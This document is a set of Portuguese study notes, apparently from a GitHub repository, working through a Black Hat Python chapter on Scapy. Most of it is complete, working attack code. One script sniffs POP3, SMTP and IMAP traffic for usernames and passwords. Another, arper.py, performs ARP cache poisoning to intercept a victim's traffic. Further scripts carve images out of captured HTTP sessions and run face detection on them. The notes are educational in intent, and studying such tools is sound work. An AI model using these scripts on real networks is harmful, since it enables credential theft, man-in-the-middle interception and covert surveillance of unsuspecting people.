





# Capitulo 4 

Neste capítulo será abordado o uso do Scapy como lib substituta para os dois capítulos anteriores. Ela é uma ferramenta completa e útil no contexto da segurança de redes no geral.

## Obtendo controle total da rede com Scapy

Aqui o autor faz uma breve introdução sobre como o [Scapy](https://scapy.readthedocs.io/en/latest/) poderia ser utilizado e introduz a sua utilização (que é recomendada para o Linux). Recomenda-se uma breve leitura sobre o que é o Scapy. Para instalá-lo, use:

`pip install scapy`

### Obtendo credenciais de e-mail

Nesse passo, criaremos um sniffer simples, para capturar as credenciais para os seguintes tipos de comunicação:

- `SMTP`: Simple Mail Transfer Protocol (Protocolo de Email)
- `POP3`: Post Office Protocol (Protocolo de Correio)
- `IMAP`: Internet Messages Access Protocol (Protocolo de Mensagens na Internet)

Mais tarde será explorado o uso do sniffer para realizar `ARP Poisoning`, que é uma forma de enganar os computadores no protocolo ARP (Address Resolution Protocol, que verifica para onde o roteador deve mandar os pacotes).

O Scapy oferece uma função `sniff` que opera da seguinte forma:

```py
sniff(filter="", iface="any", prn=function, count=N)
```

Onde:

- `filter`: Especifica um Berkeley Packet Filter ([BPF](https://en.wikipedia.org/wiki/Berkeley_Packet_Filter)), que pode ser deixado em branco para capturar todos os pacotes. O exemplo que ele dá no livro é: Caso se queira capturar pacotes HTTP, usa-se um BPF na `tcp port 80`, que é a porta em que são transferidos os pacotes HTTP
- `iface`: Especifica a interface de rede, em branco o Scapy capturará de todas as interfaces
- `prn`: Especifica a função de retorno a ser chamada para interpretar o pacote baseada no `filter`, recebendo o "objeto pacote" como único parâmetro
- `count`: Especifica quantos pacotes se deseja capturar. Deixado em branco ele capturará pacotes indefinidamente

Vamos ao código `main_sniffer.py`, que, assim como os códigos do capítulo 3, deve ser executado como admnistrador (ou sudo):

```py
# Import do Scapy
from scapy.all import sniff

# Função a ser chamada, ela basicamente printa as informações do pacote
def packet_callback(packet):
    print(packet.show())
    
def main():
    # Função sniff que, nesse momento, apenas lê qualquer pacote e printa
    sniff(prn=packet_callback, count=1)

if __name__ == '__main__':
    main()
```

A resposta é do estilo:

```
###[ Ethernet ]###
  dst       = f4:7b:09:4f:95:e8
  src       = 00:e4:06:2b:2c:9a
  type      = IPv4
###[ IP ]###
     version   = 4
     ihl       = 5
     tos       = 0x0
     len       = 40
     id        = 4786
     flags     = DF
     frag      = 0
     ttl       = 55
     proto     = tcp
     chksum    = 0xe7b1
     src       = 23.37.13.82
     dst       = 192.168.100.77
     \options   \
###[ TCP ]###
        sport     = https
        dport     = 51354
        seq       = 539389632
        ack       = 2541316327
        dataofs   = 5
        reserved  = 0
        flags     = A
        window    = 493
        chksum    = 0xade
        urgptr    = 0
        options   = []
###[ Padding ]###
           load      = b'\x00\x00'

None
```

Bastante completa, contudo é importante que tenhamos filtros para que seja possível entender melhor cada informação sendo transferida. Usaremos então a sintaxe do BPF (ou estilo *Wireshark*) para filtrar as informações que desejamos.

Existem 3 tipos de filtros:

- Descritores (como um host, interface ou porta específica)
- Direção (como source ou destiny)
- Protocolo (como ip, tcp ou udp)

Veja a seguinte tabela:

| Expressão | Descrição | Palavras-chave do filtro |
| :---------- | :------------------------------ | :----------------|
| Descritor | O que você está procurando | `host`, `net`, `port` |
| Direção | Direção de descolamento | `src`, `dst`, `src or dst` |
| Protocolo | Protocolo utilizado para enviar o tráfego | `ip`, `tcp`, `ip6`, `udp` |

Exemplo:

- A expressão `src 192.168.100.55` especifica que queremos pacotes vindo apenas de 192.168.100.55.
- A expressão `tcp port 25 or tcp port 100` especifica que queremos apenas pacotes TCP das portas 25 ou 100

Agora escreveremos nossos sniffer específico usando a sintaxe BPF:

```py
from scapy.all import sniff, TCP, IP

def packet_callback(packet):
    if packet[TCP].payload:
        # Para o payload do pacote
        mypacket = str(packet[TCP].payload)
        # Procuramos algo como USERNAME e PASSWORD, para achar as credenciais de emails na rede
        if 'user' in mypacket.lower() or 'pass' in mypacket.lower():
            print(f'[*] Destino: {packet[IP].dst}')
            print(f'[*] {mypacket}')
    
def main():
    # Mudamos a configuração para ouvir as portas 110 (POP3), 25 (SMTP) e 143 (IMAP) atrás de achar relacionamentos com email
    sniff(filter='tcp port 110 or tcp port 25 or tcp port 143',
          prn=packet_callback, store=0)

if __name__ == '__main__':
    main()
```

Agora com o sniffing de emails feito, podemos passar para o próximo passo: envenenamento ARP para que possamos receber pacotes de outros IPs e lê-los sem que a vítima perceba.

### Evenenamento de cache ARP com o Scapy

O [evenenamento ARP](https://www.geeksforgeeks.org/arp-spoofing-and-arp-poisoning/) é uma técnica antiga que muda a forma com que a rede entende os endereços de envio das mensagens.

O protocolo ARP (Address Resolution Protocol) nada mais é que uma tabela com os endereços físicos dos computadores da rede (MAC - Media Access Control - addresses) associados aos endereços de IP e que é armazenada em uma memória cache em cada máquina. 

Neste ataque, modificaremos a tabela de forma a trocar o MAC do IP da vítima para o nosso IP de ataque. Ao invés de enviar/receber pacotes para o roteador/switch a vítima enviará para no atacante:



O primeiro passo para isso é saber qual o endereço de IPv4 local da máquina-alvo. Pode-se usar `ifconfig` para Linux e Mac ou `ipconfig` para Windows no terminal da máquina. Em casos mais avançados pode-se usar o `nmap`, mas isso não será abordado agora.

Vale ressaltar que esse ataque ARP só serve para IPv4.

Agora, ainda na vítima, procuraremos qual o endereço MAC o protocolo seu protocolo ARP está direcionando para o atacante. Para isso utilizae `arp -a` e procure o MAC (no formato `xx-xx-xx-xx-xx-xx`) associado ao seu IP:



É possível achar o seu próprio enderereço MAC através das configurações de rede do dispositivo de ataque.

No nosso caso:

- IP Alvo = `192.168.100.82`
- MAC Alvo = `00-e0-1f-95-05-f7`

- IP Local = `192.168.100.77`
- MAC Local = `f4-7b-09-4f-95-e8`

Também devemos encontrar a interface de rede que estamos utilizando para fazer o ataque. No windows, usando `ipconfig` é possível ver o nome da interface a ser usada, nela encontra-se o IP local que você está utilizando:



Você deve associar a interface vista em `arp -a` com um adaptador visto no `ipconfig`. Note que ele vem precedido de um descritivo de tipo de rede, com o nome visto em seguida. Se houver dúvida em relação ao "nome da interface", utilize no Powershell `Get-NetAdapter`, que terá uma lista de todos os nomes dos adaptadores de rede:



No Linux e no Mac é mais simples, pois ao usar `ifconfig` já aparece a interface na esquerda:



Agora criaremos o arquivo `arper.py` para iniciarmos o envenenamento ARP:

```py
# Imports: multiprocessing, para a execução de processos paralelos (é diferente de threading, pois ela faz todas as execuções
# no mesmo processo)
from multiprocessing import Process
# Imports: funções do Scapy
from scapy.all import (ARP, Ether, conf, get_if_hwaddr, 
                       send, sniff, sndrcv, srp, wrpcap)
# Outros imports
import os
import sys
import time

# Abstração de funções
# Pega o endereço mac de determinado IP
def get_mac(target_ip):
    pass

# Nossa classe Arper, que irá realizar as 'atividades'
class Arper:
    def __init__(self, victim, gateway, interface='Wi-Fi'):
        pass
    
    def run(self):
        pass

    def poison(self):
        pass
    
    def sniff(self, count=200):
        pass
    
    def restore(self):
        pass
    
# Na execução, espera o ip da vítima, o gateway (IP do roteador, por exemplo) e a interface de rede
if __name__ == '__main__':
    (victim, gateway, interface) = (sys.argv[1], sys.argv[2], sys.argv[3])
    myarp = Arper(victim, gateway, interface)
    myarp.run()
```

Agora, modificando a nossa função `get_mac`:

```py
def get_mac(target_ip):
    # Define um pacoe que deve ser enviado para o pacote Ethernet com um quadro de broadcast ('ff..ff') 
    # que carregará a operação 'who-has' do ARP para determinado IP
    packet = Ether(dst='ff:ff:ff:ff:ff:ff'/ARP(op='who-has', pdst=target_ip))
    # Usando o srp, que envia pacotes do nível 2 (enlance de rede), ele tenta várias vezes até receber uma resposta.
    # Quando ele recebe a resposta significa que o IP alvo existe na rede e tem o source (src) na mensagem
    resp, _ = srp(packet, timeout=2, retry=10, verbose=False)
    for _, r in resp:
        return r[Ether].src
    return None
```

Agora nossa função poderá capturar o endereço MAC tanto da nossa vítima quanto do nosso gateway, que nos permitirá executar o enevenamento sem ter que usar o comandos acima. Em seguida, modificaremos nossa classe `Arper`:

```py
from multiprocessing import Event, Process
from scapy.all import (ARP, Ether, conf, get_if_hwaddr, 
                       send, sniff, sndrcv, srp, wrpcap,sendp)
import os
import sys
import time

def get_mac(target_ip):
    packet = Ether(dst='ff:ff:ff:ff:ff:ff')/ARP(op='who-has', pdst=target_ip)
    resp, _ = srp(packet, timeout=2, verbose=False)
    for _, r in resp:
        return r[Ether].src
    return None

class Arper:
    # Instanciação da classe, com os parametros de IP dados. Note que pegamos os MAC dinamicamente
    def __init__(self, victim, gateway, interface='Wi-fi'):
        self.victim = victim
        self.victimmac = get_mac(victim)
        self.gateway = gateway
        self.gatewaymac = get_mac(gateway)
        self.interface = interface
        conf.iface = interface
        conf.verb = 0
        # Event() é uma variável da lib de multiprocessing para ajudar a determinar quando encerrar um processo
        self.stop_event = Event()
        
        print(f'{interface} inicializada:')
        print(f'Gateway ({gateway}) está em {self.gatewaymac}')
        print(f'Vítima ({self.victim}) está em {self.victimmac}')
        print('-'*30)
    
    # Função run(), executa o que deve ser usado na lógica principal
    # Não são instanciadas `self.threads` pois isso causa um erro de tipagem no
    # Process. 
    def run(self):
        # Thread de poison (que recebe o evento de parada - Ctrl + C)
        poison_thread = Process(target=self.poison, args=(self.stop_event,))
        poison_thread.start()
        
        # Thread de sniffing, que recebe a contagem de pacotes a serem recebidos 
        sniff_thread = Process(target=self.sniff, args=(10,))
        sniff_thread.start()
        
        # Aguarda as duas threads terminarem 
        poison_thread.join()
        sniff_thread.join()
 
    # Função poison:
    # Basicamente ela envia 2 pacotes, um para o roteador (interface) outro para o alvo
    # Para o roteador ela fala "Esse endereço de IP da vítima, encontra-se no MAC do atacante"
    # Para a vítima ela fala "Esse endereço de IP do roteador, encontra-se no MAC do atacante"
    #
    # Logo, ao enviar a mensagem pelo protocolo "is-at", que é o protocolo-padrão de solução da tabela ARP
    # Ambos acreditarão que devem mandar mensagem para o nosso MAC, ao invés de entre si, o que nos permintirá interceptar os pacotes
    def poison(self, stop_event):
        # Instancia da primeira mensagem ARP
        poison_victim = ARP()
        poison_victim.op = 2                                    # op = 'is-at'
        poison_victim.psrc = self.gateway                       # o IP source deve ser do gateway, para simular que o próprio roteador está enviando a mensagem
        poison_victim.pdst = self.victim                        # o IP deve ser o IP da vítima (pois a mensagem é para ela)
        poison_victim.hwdst = self.victimmac                    # o MAC destino é o da vítima (pois a mensagem é para ela)
        poison_victim.hwsrc = get_if_hwaddr(self.interface)     # o MAC source deve ser o nosso, para ela entender que nós somos o roteador
        print(f'IP de origem: {poison_victim.psrc}')
        print(f'IP de destino: {poison_victim.pdst}')
        print(f'MAC de destino: {poison_victim.hwdst}')
        print(f'MAC de origem: {poison_victim.hwsrc}')
        print(poison_victim.summary())                          # Print de resumo da mensagem
        print('-'*30)
        
        poison_gateway = ARP()                                  # Algo equivalente mas configurado para o roteador
        poison_gateway.op = 2
        poison_gateway.psrc = self.victim
        poison_gateway.pdst = self.gateway
        poison_gateway.hwdst = self.gatewaymac
        poison_gateway.hwsrc = get_if_hwaddr(self.interface)
        print(f'IP de origem: {poison_gateway.psrc}')
        print(f'IP de destino: {poison_gateway.pdst}')
        print(f'MAC de destino: {poison_gateway.hwdst}')
        print(f'MAC de origem: {poison_gateway.hwsrc}')
        print(poison_gateway.summary())
        print('-'*30)
        
        print(f'Iniciando o envenenamento ARP. [CTRL+C para interromper]')
        # Loop até o stop_event (Ctrl+C ou fim da função sniffing)
        while not stop_event.is_set():
            sys.stdout.write('.')       # sys.write() armazena no buffer de escrita a mensagem
            sys.stdout.flush()          # sys.flush() escreve todo o buffer no terminal e limpa-o
            try:
                # Nessa parte o código difere do livro, pois nas versões recentes do Scapy, a função `send()`,
                # usada originalmente, mandava pacotes tanto para a camada 3 (Rede, onde fica o IP, por exemplo)
                # quanto para a camada 2 (Enlace, onde fica o ARP, que desejamos). Isso causava um WARNING 
                # indesejado no terminal.
                #
                # Já a função `sendp()` envia um pacote específico para a camada 2, na Ethernet da interface local
                # assim como o feito para descobrirmos os MAC. Anteriormente eram enviados para o `dst` (destination)
                # ff:ff:ff:ff:ff:ff (que é um broadcast, pois é uma busca ampla para achar os MACs), mas agora devem ser
                # enviados os pacotes especificamente para a vítima e para o gateway
                sendp(Ether(dst=self.victimmac)/poison_victim, verbose=False)
                sendp(Ether(dst=self.gatewaymac)/poison_gateway, verbose=False)
                time.sleep(2)
            # No Ctrl+C executa o `restore()`, que é uma função de envio da recorreção dos ARPs para os MACs originais
            except KeyboardInterrupt:
                self.restore()
                stop_event.set()
                sys.exit()
                break
        sys.exit()
        
    # A funçao de sniff é similar à anterior para o caso do email
    def sniff(self, count=100):
        time.sleep(5)
        print(f'Capturando {count} pacotes')
        # O filtro acha apenas pacotes relacionados ao IP da vítima
        bpf_filter = "ip host %s" % self.victim
        packets = sniff(count=count, filter=bpf_filter, iface=self.interface)
        # Gera um arquivo pcap, que pode ser lido pelo Wireshark ou pelo programa que faremos em breve, com os pacotes
        wrpcap('arper.pcap', packets)
        print('Pacotes recebidos')
        # Ao final, reinicia os ARPs
        self.restore()
        # Encerra a thread de poison
        self.stop_event.set()
        print('Concluido')
    
    # Basicamente envia uma pensagem para um broadcast (veja que não tem Ether(dst) na mensagem)
    # Comn os dados originais no parametro `hwsrc`, corrigindo o MAC
    def restore(self):
        sendp(ARP(
            op=2,
            psrc=self.gateway,
            hwsrc=self.gatewaymac,
            pdst=self.victim,
            hwdst='ff:ff:ff:ff:ff:ff'),
            count=5, verbose=False)           
        
        sendp(ARP(
            op=2,
            psrc=self.victim,
            hwsrc=self.victimmac,
            pdst=self.gateway,
            hwdst='ff:ff:ff:ff:ff:ff'),
            count=5, verbose=False)       
        print('\n\n\n\n\nRestaurando tabelas ARP...\n\n\n\n')

    
if __name__ == '__main__':
    # Espera 3 argumentos do usuário, iniciar um objeto Arper e o inicia
    if len(sys.argv) != 4:
        print("*** Envenenamento ARP ***\n Como usar: \n\n arper.py [IP VITIMA] [IP GATEWAY] [INTEFACE]")
        sys.exit()
    (victim, gateway, interface) = (sys.argv[1], sys.argv[2], sys.argv[3])
    myarp = Arper(victim, gateway, interface)
    myarp.run()
```

Caso exista ainda alguma dúvida de como esse envenenamento funciona, aqui está uma analogia feita pelo ChatGPT:

```
Imagine que você está em uma festa cheia de pessoas que não se conhecem bem, e alguém resolve bancar o "anfitrião enganador". Esse anfitrião começa a distribuir informações erradas sobre quem é quem na festa. Para uma pessoa, ele diz: "O fulano ali, que você está tentando encontrar, sou eu!", e para outra, afirma: "O anfitrião da festa sou eu, fale comigo!". Esse truque cria uma situação em que todos que deveriam se comunicar diretamente passam a depender desse anfitrião enganador, que intercepta todas as conversas. 

No ARP Cache Poisoning, o processo é semelhante. O atacante envia mensagens falsas para o roteador e a vítima usando o protocolo ARP. Para o roteador, diz: "O IP da vítima está associado ao meu MAC", e para a vítima, "O IP do roteador está associado ao meu MAC". Como o ARP não verifica a veracidade dessas informações, ambos passam a direcionar seus dados para o MAC do atacante. Dessa forma, o atacante se coloca no meio da comunicação, podendo interceptar, alterar ou até bloquear os pacotes de dados.
```


**OBSERVAÇÃO**: Para o código funcionar, você deve estar com o encaminhamento de pacotes do seu OS ligado. No Windows, basta ligar o `hotspot móvel`. No Linux, você deve executar o seguinte comando no terimnal:

```bash
sudo -i
echo i > /proc/sys/net/ipv4/ip_forward
```

### Explorando o código

Testou-se para IPs de máquinas alvos na rede local. Depois de muitos erros e correçÕes, funcionou.

Pronto! Agora temos um Envenenador ARP funcional. Agora, encontraremos uma forma de tratar o arquivo `pcap`!

### Processamento de pcap

É possível abrir e interpretar pacotes `pcap` através de softwares de rede, como o Wireshark. Contudo, faremos um código um pouco fora do convenvional, que na verdade, usando o OpenCV (ferramenta de visão computacional), visualizar imagens e, quem sabe, até realizar reconhecimento facial de imagens em tempo real.

Neste exemplo, faremos as duas coisas: extrairemos imagens do tráfego HTTP e detectaremos rostos nessas imagens.

O primeiro arquivo que faremos será o `recapper.py` que analisa um arquivo pcap para achar imagens nos fluxos contidos no pcap e as grava no disco.

O segundo arquivo que faremos será o `detector.py` que analisa cada um desses arquivos de imagem para determinar se contém um rosto. Se contiver, ele grava a imagem no disco com um retângulo ao redor do rosto.

Para o `recapper.py`, começaremos criando uma estrutura do tipo `namedtuple`, que possui campos acessíveis por meio de pesquisa de atributos. Basicamente funciona como uma `tupla` normal, mas com nomes ao invés de números para as posições. Ex:

```py
# Tupla normal:
point = (1.1, 5)
print(point[0], point[1])

# Namedtuple
Point = namedtuple('Point', ['x', 'y'])
p = Point(1.1, 5)
print(p.x, p.y)
```

Criaremos uma `Response`, que terá um `header` e um `payload`. Em `recapper.py`:

```py
# Imports do que será usado
from scapy.all import TCP, rdpcap
# Collections contém a namedtuple
import collections
import os
import re
import sys
import zlib

# Procura o Output Directory, ajustei para o próprio diretório de execução
OUTDIR = os.path.dirname(os.path.realpath(__file__))

# Gera o caminho para o diretório do pcaps, que está no próprio diretório de execuçao
if os.name == 'nt':
    PCAPS = OUTDIR + '\\pcaps'
else:
    PCAPS = OUTDIR + '/pcaps'
    
# Tupla da Response
Response = collections.namedtuple('Response', ['header', 'payload'])

# Abstração de get_header, para obter o cabeçalho do pacote
def get_header(payload):
    pass

# Abstração de extract_content, para obter os conteúdos do pacote
def extract_content(Response, content_name='image'):
    pass

# Classe do Recapper
class Recapper:
    # Construtor com o file_name do pcap a ser analisado
    def __init__(self, fname):
        pass

    # Abstração da criação da lista de respostas
    def get_responses(self):
        pass
    
    # Abstração da escrita da imagem
    def write(self, content_name):
        pass
    
if __name__ == '__main__':
    # Execução da main: Pega o local o pcap, cria o Recapper com ele, pega as responses e escreve os que forem imagens
    pfile = os.path.join(PCAPS, 'teste.pcap')
    recapper = Recapper(pfile)
    recapper.get_responses()
    recapper.write('image')
```

Agora, criando as lógicas das funções:

```py
# Importação das bibliotecas
from scapy.all import TCP, rdpcap  # Importa a classe TCP e a função para leitura de arquivos PCAP
import collections  # Permite criar namedtuples para representar dados estruturados
import os  # Usado para manipular caminhos e diretórios
import re  # Usado para trabalhar com expressões regulares, especialmente na extração de dados
import sys  # Usado para interagir com o sistema, principalmente para escrita no terminal
import zlib  # Usado para descompressão de dados compactados (gzip e deflate)

# Define o diretório de saída como o mesmo onde o script está localizado
OUTDIR = os.path.dirname(os.path.realpath(__file__))

# Define o diretório onde os arquivos PCAP devem estar localizados
# Distinção entre sistemas Windows (usa barras invertidas) e Unix/Linux (usa barras normais)
if os.name == 'nt':
    PCAPS = OUTDIR + '\\pcaps'
else:
    PCAPS = OUTDIR + '/pcaps'

# Criação de um objeto chamado "Response" usando namedtuple para armazenar dados de resposta HTTP
# Ele contém dois campos: 'header' (os cabeçalhos HTTP) e 'payload' (os dados do corpo da resposta)
Response = collections.namedtuple('Response', ['header', 'payload'])

# Função para extrair o cabeçalho HTTP do payload recebido
def get_header(payload):
    try:
        # Encontra o fim do cabeçalho HTTP, identificado pela sequência '\r\n\r\n'
        # Inclui dois caracteres adicionais após o cabeçalho para garantir a captura completa
        header_raw = payload[:payload.index(b'\r\n\r\n')+2]
    except ValueError:
        # Caso não encontre um cabeçalho válido, imprime '-' no terminal e retorna None
        sys.stdout.write('-')
        sys.stdout.flush()
        return None
    
    # Usa expressões regulares para extrair pares chave-valor do cabeçalho (ex.: 'Content-Type: text/html')
    header = dict(re.findall(r'(?P<name>.*?): (?P<value>.*?)\r\n', header_raw.decode()))
    
    # Verifica se o cabeçalho possui a chave 'Content-Type', essencial para identificar o tipo de conteúdo
    if 'Content-Type' not in header:
        return None
    
    return header

# Função para extrair o conteúdo do payload HTTP com base no tipo de conteúdo (ex.: imagem)
def extract_content(Response, content_name='image'):
    content, content_type = None, None  # Inicializa as variáveis para o conteúdo e seu tipo
    
    # Verifica se o tipo de conteúdo no cabeçalho contém o nome especificado (ex.: 'image')
    if content_name in Response.header['Content-Type']:
        # Obtém a extensão do tipo de conteúdo (ex.: 'jpeg' em 'image/jpeg')
        content_type = Response.header['Content-Type'].split('/')[1]
        
        # Extrai o corpo da resposta (após '\r\n\r\n') como o conteúdo relevante
        content = Response.payload[Response.payload.index(b'\r\n\r\n')+4:]
        
        # Verifica se o conteúdo está compactado e o descompacta
        if 'Content-Encoding' in Response.header:
            if Response.header['Content-Encoding'] == 'gzip':
                # Descompactação para gzip
                content = zlib.decompress(Response.payload, zlib.MAX_WBITS | 32)
            elif Response.header['Content-Encoding'] == 'deflate':
                # Descompactação para deflate
                content = zlib.decompress(Response.payload)
    
    return content, content_type

# Classe principal para analisar capturas de pacotes (arquivos PCAP)
class Recapper:
    def __init__(self, fname):
        # Lê o arquivo PCAP usando a função rdpcap do Scapy
        pcap = rdpcap(fname)
        
        # Organiza os pacotes em sessões, agrupando por conexões (ex.: cliente-servidor)
        self.sessions = pcap.sessions()
        
        # Inicializa uma lista para armazenar as respostas HTTP
        self.responses = list()
    
    # Método para processar as sessões e extrair respostas HTTP
    def get_responses(self):
        for session in self.sessions:  # Itera por cada sessão capturada
            payload = b''  # Inicializa o payload acumulado como vazio
            
            # Itera por todos os pacotes da sessão
            for packet in self.sessions[session]:
                try:
                    # Verifica se o pacote está relacionado à porta 80 (HTTP)
                    if packet[TCP].dport == 80 or packet[TCP].sport == 80:
                        # Extrai e acumula o payload do pacote TCP
                        payload += bytes(packet[TCP].payload)
                except IndexError:
                    # Marca pacotes inválidos (sem camada TCP) com 'x' no terminal
                    sys.stdout.write('x')
                    sys.stdout.flush()
            
            # Após processar a sessão, tenta extrair o cabeçalho HTTP do payload acumulado
            if payload:
                header = get_header(payload)
                if header is None:  # Ignora se não encontrar um cabeçalho válido
                    continue
                
                # Adiciona a resposta HTTP (cabeçalho e payload) à lista de respostas
                self.responses.append(Response(header=header, payload=payload))
    
    # Método para salvar o conteúdo extraído das respostas HTTP
    def write(self, content_name):
        for i, response in enumerate(self.responses):  # Itera pelas respostas coletadas
            # Extrai o conteúdo e o tipo do conteúdo (ex.: 'image/jpeg')
            content, content_type = extract_content(response, content_name)
            
            if content and content_type:  # Verifica se há conteúdo válido a ser salvo
                # Gera um nome de arquivo com base no índice da resposta e no tipo do conteúdo
                fname = os.path.join(OUTDIR, f'ex_{i}.{content_type}')
                
                # Exibe no terminal uma mensagem indicando o arquivo que será salvo
                print(f'Salvando {fname}')
                
                # Salva o conteúdo em um arquivo no disco
                with open(fname, 'wb') as f:
                    f.write(content)

# Ponto de entrada principal do script
if __name__ == '__main__':
    # Define o caminho para o arquivo PCAP a ser processado
    pfile = os.path.join(PCAPS, 'teste2.pcap')
    
    # Cria uma instância da classe Recapper, passando o arquivo PCAP como argumento
    recapper = Recapper(pfile)
    
    # Coleta respostas HTTP do arquivo PCAP
    recapper.get_responses()
    
    # Escreve o conteúdo do tipo 'image' em arquivos locais
    recapper.write('image')
```

**OBSERVAÇÃO**: As imagens só são visualizadas no tráfego se a conexão for HTTP (não HTTPS, pois este tipo de conexão possui TLS - Transport Layer Security - para encriptar os dados). Usaremos o site `http://vis-www.cs.umass.edu/lfw/` para testes com imagens de rostos

Para a próxima etapa, caso se use o Linux, é necessário instale o OpenCV através de:

```bash
apt-get install libopencv-dev python3-opencv python3-numpy python3-scipy
```

Para instalar o OpenCV no Windows, podemos usar também: `pip install opencv-python` 

Agora, vamos ao `detector.py`:

```py
# Import do OpenCV
import cv2
import os

# Procura os diretórios faces, train e download, na pasta de execução. As imagens a serem analisadas devem estar em ./downloads
ROOT = os.path.dirname(os.path.realpath(__file__))

if os.name == 'nt':
    FACES = ROOT + '\\faces'
    TRAIN = ROOT + '\\train'
    IMAGES = ROOT + '\\download'
else:
    FACES = ROOT + '/faces'
    TRAIN = ROOT + '/train'
    IMAGES = ROOT + '/download'
    
def detect(srcdir=IMAGES, tgtdir=FACES, traindir=TRAIN):
    for fname in os.listdir(srcdir):
        # Procura imagens no diretório que sejam .jpeg
        if not fname.upper().endswith('.JPEG'):
            continue
        # Nomes das imagens no diretório
        fullname = os.path.join(srcdir, fname)
        newname = os.path.join(tgtdir, fname)
        img = cv2.imread(fullname)
        if img is None:
            continue
        
        # Não entendi como funcionam bem, realmente. Coisa de IA
        gray = cv2.cvtColor(img, cv2.COLOR_BGR2GRAY)
        training = os.path.join(traindir, 'haarcascade_frontalface_alt.xml')    # Arquivo de treino. Não sei como funciona
        cascade = cv2.CascadeClassifier(training)
        rects = cascade.detectMultiScale(gray, 1.3, 5)
        try:
            # Procura os rostos, se encontrar adiciona aos já encontrados
            if rects.any():
                print('Rosto encontrado')
                rects[:, 2:] += rects[:, :2]
        except AttributeError:
            print(f'Nenhum rosto encontrado em {fname}')
            continue
        # Desenha o retangulo 
        for x1, y1, x2, y2 in rects:
            cv2.rectangle(img, (x1, y1), (x2, y2), (127, 255, 0), 2)
        cv2.imwrite(newname, img)
        
if __name__ == '__main__':
    detect()
```

Confesso que não procurei entender muito o código, pois envolve conhecimentos de ML. Contudo, pelo menos agora temos como identificar rostos em requisições HTTP de imagens!

### Explorando o código

Os códigos foram testados e foram um sucesso!
